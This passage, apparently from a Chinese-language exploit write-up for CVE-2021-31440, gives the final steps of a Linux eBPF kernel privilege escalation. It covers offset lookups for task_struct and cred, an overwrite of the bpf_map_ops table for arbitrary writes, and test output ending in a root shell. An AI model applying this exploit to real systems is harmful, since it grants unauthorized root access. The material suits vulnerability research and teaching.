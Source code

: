 - （6）找到本线程的cred地址(op=1)：遍历 `task_struct->tasks->next` 链表，读取指定线程的cred地址。

  ```bash
  gdb-peda$ p/x &(*(struct task_struct *)0)->pid
  $7 = 0x908
  gdb-peda$ p/x &(*(struct task_struct *)0)->cred
  $8 = 0xac8
  gdb-peda$ p/x &(*(struct task_struct *)0)->tasks 	# 下一个 task_struct 的地址
  $9 = 0x808
  ```

- （7）修改cred，任意地址写(op=3)：篡改 `bpf_array->map->ops` 函数表指针，指向`&value[0]+0x80`处伪造的[`bpf_map_ops`](https://elixir.bootlin.com/linux/v5.11/source/include/linux/bpf.h#L59)函数表，将`map_push_elem`改为`map_get_next_key` ，这样调用`map_push_elem`时实际会调用`map_get_next_key` ，能够任意写4字节（用户层调用`bpf_update_elem()`）；还需要构造 map 的3个字段绕过某些检查。

  ```bash
  # 需构造 map 的3个字段绕过某些检查
  # 1. bpf_array->map->map_type = BPF_MAP_TYPE_STACK (0x17)
  pwndbg> p/x &(*(struct bpf_array*)0)->map->map_type
  $10 = 0x18
  # 2. bpf_array->map->max_entries = 0xffffffff
  pwndbg> p/x &(*(struct bpf_array*)0)->map->max_entries
  $9 = 0x24
  # 3. bpf_array->map->spin_lock_off = 0
  pwndbg> p/x &(*(struct bpf_array*)0)->map->spin_lock_off
  $8 = 0x2c
  ```

**问题**：Linux-5.11.20 版本总是无法泄露内核基址。不知道是不是新版内核加入了BPF保护措施。

**exp适配**：

- （1）`update_elem(0, 2);` -> `update_elem(0, 0x180000000);`  也即`value[0]`是传入的r6的值，用于触发漏洞。
- （2）以上利用过程中涉及到的偏移。

**测试结果**：

```bash
/ $ uname -a
Linux (none) 5.11.0 #1 SMP Tue Jun 8 06:45:20 PDT 2021 x86_64 GNU/Linux
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ cd exp
/exp $ ./CVE-2021-31440
[*] sneaking evil bpf past the verifier
processed 226 insns (limit 1000000) max_states_per_insn 1 total_states 20 peak_3

[*] creating socketpair()
[*] attaching bpf backdoor to socket
leak addr: 0xffffffffbc6358a0
linux base: 0xffffffffbb600000
value addr: 0xffff8baec2eb7110
init_pid_ns addr: 0xffffffffbcc63ca0
self pid is 127
task_struct addr: 0xffff8baec12096c0
iter pid 1 ...
[+] iter task 0xffff8baec120c440 ...
iter pid 2 ...
......
[+] iter task 0xffff8baec138ad80 ...
iter pid 127 ...
got it!
get cred_addr 0xffff8baec1372480
usage: 8
getting shell!
/exp # id
uid=0(root) gid=0(root) egid=1000(chal) groups=1000(chal)
```